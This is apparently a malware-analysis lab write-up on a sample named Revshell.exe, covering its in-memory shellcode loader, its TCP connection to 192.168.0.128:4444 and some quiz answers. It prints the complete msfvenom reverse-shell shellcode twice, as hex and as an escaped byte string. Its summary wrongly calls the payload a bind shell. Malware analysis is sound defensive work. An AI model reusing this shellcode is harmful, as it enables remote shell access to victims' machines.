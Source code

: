 ```yaml
---
title: "RevShell"
date: 2025-1-28
categories: [Malware Analysis]
tags: [Malware Analysis]
---
```


![img](assets/11-Revshell.exe/image1.png)


## Executive Summary

The method of found involves using msfvenom to generate a payload that creates a bind shell for remote access, which is then embedded into a program that hides its console window, allocates memory for the payload, and executes it through a new thread.

---

### Sample information

| **Attribute**         | **Value**                                                                                      |
|-------------------------|----------------------------------------------------|
| **File name**           | Revshell.exe                                       |
| **File size**           | 10 KB                                              |
| **File type**           | Executive Application                              |
| **MD5**                 | e007490bf6a65e754902fa7a46bf1e31                   |
| **SHA1**                | d10c5b4eef622b728ebbc035727ae160fd580a26           |
| **SHA256**              | 137562a049e2d6aef2310070435e623dea623b2b5363beea083f5a28323a4538 |
| **Packer / compiler info** | N/A                                             |
| **Compile time**        | Fri May 17 14:52:52 2024 (UTC)                     |

---

## Case-Specific Requirements

### **Environment**
- **Operating System:** Windows

### **Tools Used**
- **IDA**  
- **APIMonitor**  
- **ProcMon**

---

## Static Analysis
Entering the main using IDA. The code starts the line with hides the application's console window using FindWindowA to get a handle to the console window and ShowWindow with the parameter 0 to hide it.

![img](assets/11-Revshell.exe/image212.png)

A buffer v7 is created to store data, and qmemcpy is used to copy 325 bytes from a memory address unk_402128 into this buffer.

Memory is allocated using VirtualAlloc with read, write, and execute permissions ‘0x40’ for storing the copied data.

After copying the buffer into the allocated memory, a thread is created using CreateThread, which executes the code at the allocated memory address ‘v4’.

Finally, the program waits indefinitely for the thread to finish using WaitForSingleObject. The operations of these code performs dynamic execution of a payloads in memory.

![img](assets/11-Revshell.exe/image213.png)
 
The starting hex was ‘fc’ followed with ‘e8’,’82’ and so one. Extract all the hex would be like:

```
fc e8 82 00 00 00 60 89 e5 31 c0 64 8b 50 30 8b 52 0c 8b 52 14 8b 72 28 0f b7 4a 26 31 ff ac 3c 61 7c 02 2c 20 c1 cf 0d 01 c7 e2 f2 52 57 8b 52 10 8b 4a 3c 8b 4c 11 78 e3 48 01 d1 51 8b 59 20 01 d3 8b 49 18 e3 3a 49 8b 34 8b 01 d6 31 ff ac c1 cf 0d 01 c7 38 e0 75 f6 03 7d f8 3b 7d 24 75 e4 58 8b 58 24 01 d3 66 8b 0c 4b 8b 58 1c 01 d3 8b 04 8b 01 d0 89 44 24 24 5b 5b 61 59 5a 51 ff e0 5f 5f 5a 8b 12 eb 8d 5d 68 33 32 00 00 68 77 73 32 5f 54 68 4c 77 26 07 ff d5 b8 90 01 00 00 29 c4 54 50 68 29 80 6b 00 ff d5 50 50 50 50 40 50 40 50 68 ea 0f df e0 ff d5 97 6a 05 68 c0 a8 00 80 68 02 00 11 5c 89 e6 6a 10 56 57 68 99 a5 74 61 ff d5 85 c0 74 0c ff 4e 08 75 ec 68 f0 b5 a2 56 ff d5 68 63 6d 64 00 89 e3 57 57 57 31 f6 6a 12 59 56 e2 fd 66 c7 44 24 3c 01 01 8d 44 24 10 c6 00 44 54 50 56 56 56 46 56 4e 56 56 53 56 68 79 cc 3f 86 ff d5 89 e0 4e 56 46 ff 30 68 08 87 1d 60 ff d5 bb f0 b5 a2 56 68 a6 95 bd 9d ff d5 3c 06 7c 0a 80 fb e0 75 05 bb 47 13 72 6f 6a 00 53 ff d5 00 00 00 00
```
 
Turn the empty space into ‘\x’:

```
\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x00\x80\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x00\x00\x00\x00
```

Google dork first 8 byte:

![img](assets/11-Revshell.exe/image214.png)

It was a common ‘msfvenom’ of x86 program for tcp encoded

![img](assets/11-Revshell.exe/image215.png)

---

##	 Dynamic Analysis

Using APIMonitor and can see the API load and created a Thread.

![img](assets/11-Revshell.exe/image216.png)

Checking the ProcMon, the Thread was created before an TCP connection attempt to connect with the machine existed.

![img](assets/11-Revshell.exe/image217.png)

TCP attempt on the port 4444:

![img](assets/11-Revshell.exe/image218.png)

---

##	 IOCs

| IOC                                                                                          | Type                                |
|---------------------------------------------------------------------------------------------|-------------------------------------|
|  192[.]168[.]0[.]128[:]4444	|  IP:PORT  |

---
 
##	 Additional Notes

- **What is the size (in hex) of the shellcode bytes found in the malware?**
  - `145`

- **What is the virtual address of the shellcode reside in the program?**
  - `402128`

- **What is the WinAPI that is used to run the shellcode?**
  - `CreateThread`

- **How many parameters does VirtualAlloc take in the code?**
  - `4`
